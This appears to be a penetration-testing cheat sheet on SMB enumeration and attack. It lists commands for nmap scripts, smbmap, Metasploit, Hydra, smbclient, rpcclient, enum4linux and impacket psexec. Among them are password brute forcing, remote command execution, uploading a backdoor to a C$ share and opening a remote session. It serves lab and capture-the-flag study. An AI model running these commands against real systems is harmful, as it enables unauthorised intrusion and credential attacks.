 ## Nmap:

- `nmap -sU --top-ports 25` : port 137, 138 are udp smb ports. check if open.

### Nmap enum scripts

- `nmap -sU --top-ports 25 <ip>`
  ![Alt](./images/nmap-01.png)
- smb-protocols : list supported protocols
	- if v1 is enabled - EternalBlue exploit?
- smb-security-mode : guest account enabled?
- smb-os-discovery.nse : NetBIOS computer name and OS
- smb-enum-sessions : enum logged in users
- smb-enum-sessions --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-users.nse : list all users that exist on samba version
  ![Alt](./images/nmap-02-enumusers.png)
- smb-enum-shares : enum shares as guest
- smb-enum-shares,smb-ls --script-args smbusername=<user>,smbpassword=<pass> : Enumerating all the shared folders and drives then running the ls command on all the shared folders.
- smb-enum-shares --script-args smbusername=<user>,smbpassword=<pass>
	- if IPC$ share had RW perms - lets anon users enum shares, accounts etc
- smb-enum-users --script-args smbusername=<user>,smbpassword=<pass>: enum user acc on target sys
- smb-server-stats --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-domains --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-groups --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-services --script-args smbusername=<user>,smbpassword=<pass>

## SMBMAP: 

- Allows users to enumerate samba share
- Allows file upload/download/delete
- Permission enumeration (writable share, meet Metasploit)
- `smbmap -H <ip> -u guest -p "" -d <domain>` 
  ![Alt](./images/smbmap-01.png)
- `smbmap -H <ip> -u guest -p "" -d .`
- `smbmap -H <ip> -u <user> -p <pass> -x 'ipconfig'` : execute command on remote host
- `smbmap -H <ip> -u <user> -p <pass> -L` : list all drives (C: or D:)
  ![Alt](./images/smbmap-02.png)  ￼ 
- `smbmap -H <ip> -u <user> -p <pass> -r 'C$'` : list contents of C:\
  ![Alt](./images/smbmap-03.png) 
- `smbmap -H <ip> -u <user> -p <pass> --upload '/root/backdoor' 'C$\backdoor'`
  ![Alt](./images/smbmap-04.png) 
- `smbmap -H <ip> -u <user> -p <pass> --download 'C$\flag.txt'`
  ![Alt](./images/smbmap-05.png) 

## MSF:

- auxiliary/scanner/smb/smb_version - exact version of smb
- auxiliary/scanner/smb/smb2 - smb2 protocol supported?
- auxiliary/scanner/smb/smb_enumusers
- auxiliary/scanner/smb/smb_enumshares
- auxiliary/scanner/smb/pipe_auditor : determine what named pipes are accessible over SMB  (req creds)
- auxiliary/scanner/smb/smb_login
- auxiliary/scanner/smb/smb_ms17_010 - eternalblue vuln tester
- exploit/windows/smb/psexec

## Hydra:

- `hydra -l <user> -P <pass_wordlist> 192.212.251.3 smb`
	
## Nmblookup:

- `nmblookup -A <ip>`
  ![Alt](./images/nmblookup-01.png) 
	￼

## SMBclient:

- `smbclient -L <ip> -N` : list sharenames and domains with no pass with anonymous connection.
- `smbclient -L <ip> -U <user>` : authenticate as a user with legit creds
- `smbclient //<ip>/public -N`
- `smbclient //<ip>/public -U <user>` 
	- smb> ls
	- smb> get flag

## RPCclient:

- `rpcclient -U "" -N <ip>` : check anonymous login allowed - if no errors
- rpcclient $>
	- srvinfo : os version of samba server
	- enumdomgroups : enum domain groups
	- enumdomusers : enum domain users
	- lookupnames admin : get SID of user "admin"

## Enum4linux:

- `enum4linux -o <ip>` : get os version
- `enum4linux -U <ip>` : enum users (use -u <user> -p <pass> for auth enum)
- `enum4linux -S <ip>` : enum shares
- `enum4linux -G <ip>` : enum domain groups
- `enum4linux -i <ip>` : get printer info
  ![Alt](./images/enum4linux-01.png) 
- `enum4linux -r -u "admin" -p "password" <ip>` : enum users via RID cycling. S-1-22-1-1003 etc.

## PSExec (Authenticated):

- cp /usr/share/doc/python3-impacket/examples/psexec.py /root/Desktop
- chmod +x psexec.py
- python3 psexec.py Administrator@ip
- this will provide remote session

## References:

1. Samba (https://www.samba.org/)
2. smbclient (https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)
3. rpcclient (https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)
4. nmblookup (https://www.samba.org/samba/docs/current/man-html/nmblookup.1.html)
5. enum4Linux (https://tools.kali.org/information-gathering/enum4linux)
6. THC Hydra (https://tools.kali.org/password-attacks/hydra)
7. smbmap (https://tools.kali.org/information-gathering/smbmap)
8. Metasploit Module: SMB Session Pipe Auditor (https://www.rapid7.com/db/modules/auxiliary/scanner/smb/pipe_auditor)